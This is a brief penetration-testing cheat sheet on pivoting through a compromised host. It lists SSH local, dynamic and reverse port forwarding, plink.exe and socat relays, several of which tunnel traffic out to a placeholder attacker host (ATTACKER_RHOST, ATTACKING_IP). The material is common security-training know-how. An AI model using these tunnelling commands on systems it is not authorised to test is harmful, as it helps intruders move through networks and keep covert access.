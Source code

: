 # Pivoting

## There are 2 types of pivoting

1. Port Forwarding (only one port)
2. Tunnelling and Proxying (all ports)

## proxychains

config file: `/etc/proxychains.conf`

## ssh forward port forwarding

```
ssh -L <COMPROMISED_LPORT>:<TARGET_RHOST>:<TARGET_RPORT> user@<COMPROMISED_LHOST> -fN
```

## ssh forward proxy

```
ssh -D <COMPROMISED_LPORT> <USER>@<COMPROMISED_LHOST> -fN
```

## ssh reverse connection

```
# on your machine
ssh-keygen
vim ~/.ssh/authorized_keys
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty <ID_RSA.PUB>

# on target machine
sudo systemctl status ssh # sudo systemctl start ssh
ssh -R <COMPROMISED_LPORT>:<TARGET_RHOST>:<TARGET_RPORT> <USERNAME>@<ATTACKER_RHOST> -i <KEYFILE> -fN
# or ssh -R <COMPROMISED_LPORT> <USERNAME>@<ATTACKER_RHOST> -i <KEYFILE> -fN
```

## plink.exe

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with: `puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

## socat

[linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
./socat tcp-l:<COMPROMISED_LPORT>,fork,reuseaddr tcp:<TARGET_RHOST>:<TARGET_RPORT> &
```
